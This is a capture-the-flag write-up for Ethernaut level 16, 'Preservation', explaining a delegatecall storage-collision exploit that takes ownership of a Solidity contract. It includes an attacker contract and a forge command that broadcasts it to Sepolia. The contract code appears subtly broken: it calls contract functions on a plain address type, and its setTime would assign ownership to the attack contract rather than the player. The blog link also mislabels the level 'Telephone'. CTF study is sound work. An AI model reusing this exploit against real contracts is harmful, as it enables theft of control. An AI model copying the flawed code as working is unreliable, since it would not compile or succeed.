

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 16 - Preservation</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 16 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-16-preservation)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals



## The hack

Here, we have to become the new contract owner. Make sure you completed the level [6 - Delegation](../solutions/06_Delegation.md) before this one so you understand how `delegatecall` works.

After a quick first look, we can see that no function allows us to override the owner variable directly.
However, we know that a `delegatecall` executes the code of the called contract (`LibraryContract`), but with the storage of the calling contract (`Preservation`).
And since their storage doesn't match, we will be able to override some data and take ownership eventually. But, how?

Let's say we call the `setFirstTime` function with a uint, it will call the `setTime` function of the `LibraryContract` with the same uint via the `delegatecall`. The `setTime` function will set the `storedTime` variable to the uint at storage slot 0. But since the `delegatecall` is using the `Preservation` contract storage, it will override the `timeZone1Library` variable instead.

| Storage slot | Preservation     | LibraryContract | Malicious Contract |
| ------------ | ---------------- | --------------- | ------------------ |
| 0            | timeZone1Library | storedTime      | timeZone1Library   |
| 1            | timeZone2Library |                 | timeZone2Library   |
| 2            | owner            |                 | owner              |
| 3            | storedTime       |                 | storedTime         |

Storage collision happening at slot 0. A simple unit test would have easily revealed this!

Since we can override the `timeZone1Library` variable, we could override it with a malicious contract address containing our own version of the `setTime` function. So we can call the `setFirstTime` once with our malicious contract address to override the library address, then once more to delegate the call to our malicious contract and override the `owner` variable to our address.

## Solution

Here is our malicious contract with a custom `setTime` function, and... a storage identical to the `Preservation` contract to avoid any collision.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Disappearance {
    address public timeZone1Library;
    address public preservation;
    address public owner;

    constructor(address _preservation) {
        preservation = _preservation;
    }

    function attack() public {
        preservation.setFirstTime(uint256(uint160(address(this))));
        preservation.setFirstTime(uint256(uint160(msg.sender)));
        require(preservation.owner() == msg.sender, "Hack failed!");
    }

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

Then run the script with the following command:

```bash
forge script script/16_Preservation.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Libraries should be stateless & use the `library` keyword.
- Avoid using `delegatecall` with user inputs. Or simply avoid using `delegatecall` at all.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
